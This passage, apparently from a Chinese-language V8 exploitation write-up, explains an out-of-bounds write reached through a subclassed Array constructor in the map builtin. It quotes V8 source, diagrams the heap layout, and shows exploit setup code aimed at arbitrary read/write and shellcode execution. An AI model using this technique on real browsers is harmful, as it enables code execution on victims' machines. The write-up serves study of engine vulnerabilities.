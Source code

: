 我们可以通过定义自己的Array type覆写construct

上面说的v8中有对应的判断新生成的数组长度的操作(其实还是以上漏洞点的引入使得检查不够完善)

```
BranchIfFastJSArray(a(), context(), FastJSArrayAccessMode::ANY_ACCESS,
&amp;fast, &amp;runtime);
BIND(&amp;fast);
`{`
kind = EnsureArrayPushable(a(), &amp;runtime);
elements = LoadElements(a());
GotoIf(IsElementsKindGreaterThan(kind, FAST_HOLEY_SMI_ELEMENTS),
&amp;object_push_pre);
TryStoreArrayElement(FAST_SMI_ELEMENTS, mode, &amp;runtime, elements, k,
mappedValue);
Goto(&amp;finished);
`}`
```

我们走fast，可以跳过BranchIfFastJSArray 检查，然后就可以越界写了

具体如何通过map修改array的长度，直接看exp中注释



## 布局

关于对象在v8中的存储方式可以看这里奇技淫巧学 V8 之二，对象在 V8 内的表达

以下来自Exploiting a V8 OOB write

```
================================================================================
|a_ BuggyArray (0x80) | a_ FixedArray (0x18) | oob_rw JSArray (0x30) |
--------------------------------------------------------------------------------
|oob_rw FixedDoubleArray (0x20) | leak JSArray (0x30) | leak FixedArray (0x18) |
--------------------------------------------------------------------------------
|arb_rw ArrayBuffer |
================================================================================
```

对应的

```
var code = function() `{`
return 1;
`}`
code();
class BuggyArray extends Array `{`
constructor(len) `{`
super(1);
oob_rw = new Array(1.1, 1.1);//浮点数是FixedDoubleArray,改oobrw的length，泄露下面的leak，以及修改arb_rw的backing store pointer去任意读写
leak = new Array(code); //用来leak出函数地址，用来写入shellcode
arb_rw = new ArrayBuffer(4);//buffer
`}`
`}`; //看过v8中的对象布局后，对照这里定义看上面的排布图
```
